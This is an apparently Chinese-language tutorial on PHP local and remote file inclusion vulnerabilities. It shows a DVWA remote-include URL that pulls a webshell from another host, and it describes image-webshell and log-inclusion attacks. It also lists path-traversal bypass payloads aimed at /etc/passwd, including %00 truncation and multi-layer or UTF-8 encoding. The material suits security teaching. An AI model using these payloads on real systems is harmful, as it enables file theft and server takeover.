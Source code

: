 # 文件包含漏洞
服务器通过php的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到邪恶的目的。
这也算官方的解释吧，用个人的话说，通过浏览器、url地址或者是一个参数的变量的内容，可以通过修改这些url或者参数变量的内容，读取到web根目录以前其他文件，但是不同于目录浏览，目录浏览是可以通过浏览器直接显示www目录下每一个文件的名称，把目录列表给列出来。
## 常见文件包含函数
include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
include_once()和require_once()：这两个函数和前两个函数作用几乎相同，区别在于若文件中代码已被包含则不会再次包含
 
 
LFI（本地包含漏洞）目录遍历可以理解为本地包含漏洞，验证以及利用方法都相同。
RFI（远程包含漏洞）可以包含进其他主机的url地址，如自己开放一个www服务，然后在上面放一个木马文件，如果是代码会在这个机器上执行的。拿到shell的权限要看运行www服务的帐号。
 
 
### 包含漏洞的特征：
在某一个页面中，一个变量的值等于一个页面文件或者是一个固定的值，如  
？page=a.asp  
？home=b.html  
？file=content  
### 漏洞分类  
本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
    上传图片马，然后包含
    读敏感文件，读PHP文件
    包含日志文件GetShell
    包含/proc/self/envion文件GetShell
    包含data:或php://input等伪协议
    若有phpinfo则可以包含临时文件
远程文件包含：可以直接执行任意代码
要保证php.ini中allow_url_fopen和allow_url_include要为On
 
 
## 文件包含漏洞利用
1、包含读出目标机上其它文件
如果对取得的参数page没有过滤，于是我们可以任意指定目标主机上的其它敏感文件
在linux中，"."表示当前目录，“..”表示上一层目录，当../到根目录下，再往上层父目录仍旧是根目录。
![asdasasd](./q/dd.jpg)


用常见的“../”包含出日志文件。
![asdasasd](./q/t.png)

2、包含可运行的PHP木马  
在很多地方，我们都可以上传图片，如上传头像，图片等，这这里先上传图片，图片的内容为一句话木马
![asd](./q/tt.png)  
![asd](./q/p.png)
由于上传的限制，一般只能上传jpg，png的图片格式，代码无法执行，我们用本地包含的方式将图片包含进来，代码就执行了，代码不需要后缀名是php、asp的格式，只要内容是代码即可执行
![asd](./q/pp.png)
然后用中国菜刀连接（功夫再高，也怕菜刀！）  
![asd](./q/p3.png)
3.远程包含url和php木马  
如果目标主机的"allow_url_fopen"是激活的（默认是激活的），我们就可以有更大的利用空间，我们可以指定其它URL上的一个包含PHP代码的webshell来直接运行
不需要后缀名是php、asp的格式，只要内容是代码就可以。
出现概率少于本地包含，但更容易被利用  
如在自己服务器上写上一句话代码，然后用远程包含漏洞去包含这个链接，
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=http://192.168.0.117/a.php
 
然后同上，用菜刀连接，获取webshell。
 
 
## 包含漏洞绕过技巧
在利用包含漏洞中，经常遇到一个问题，在查看page=/etc/passwd的时候，出现报错，找不到/etc/passwd.php文件，说明默认自动加上了后缀名.php，绕过的方式有一下几种
 
#### 1.编码绕过字符过滤
（1）加“.”，当加点，会忽略点后面的内容。
（2）“%00”，即null空字符（/etc/passwd%00）,在php语言格式里，当遇到%00的时候，后面不管有无其他东西，都不看了，只看%00前面的内容
（3）“#”，绕过文件扩展名过滤
 
 
#### 2、编码
url编码、双层（多层）url编码  
%2e%2e%2f   解码：../  
%2e%2e%5c  解码：..\  
%25%2e%25%2e%255c 解码：..\（可使用burp多层编码和解码）  
 
uniclode/UTF-8编码  
..%c0%af  解码：../  
%c1%9c  解码：..\  
 
但编码能否正确的起到效果，得看web server是否能对编码后的做解析
 
 
#### 3、其他系统可能是使用到的特殊字符
file.txt ...
file.txt <spaces>
file .txt """"""""
file.txt <<>><
./././ file.txt


#### 4、攻击向量字典
在kali中，也存在攻击向量字典路径是“/usr/share/wfuzz/wordlist/vulns”
![asd](./q/p4.png.jpg)


利用条件:  
程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
用户能够控制该动态变量


# 漏洞危害

这类漏洞看起来貌似并不严重，一旦被恶意利用则会带来很大的危害。本地文件包含不仅能够包含web文件目录中的一些配置文件（比如Web应用、数据库配置文件、config文件），还可以查看到一些Web动态页面的源代码，为攻击者进一步发掘web应用漏洞提供条件，甚至一旦与路径遍历漏洞相结合，还可能直接攫取目标系统的用户名与密码等文件。并且能执行任意代码，甚至控制服务器。